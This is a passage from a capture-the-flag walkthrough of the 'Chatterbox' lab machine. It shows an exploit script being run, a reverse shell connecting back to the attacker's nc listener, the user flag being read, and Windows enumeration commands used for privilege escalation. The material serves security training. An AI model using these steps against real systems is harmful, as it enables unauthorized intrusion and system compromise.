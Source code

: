 And run the exploit (Note that the exploit uses python2):

```shell
python2 36025.py
```

It worked! We got a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.140.222] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\alfred\Desktop\user.txt
```

# Privilege Escalation
### Privilege Escalation Enumeration
Check system information, useful for locating kernel exploits:

```
systeminfo
```

Check our user name in the target machine:

```
whoami
```

Check for other users in the target machine:

```
net users
```

Check our IP configuration in the target machine:

```
ipconfig
```

Check status of ports in target machine:

```
netstat -ano
```
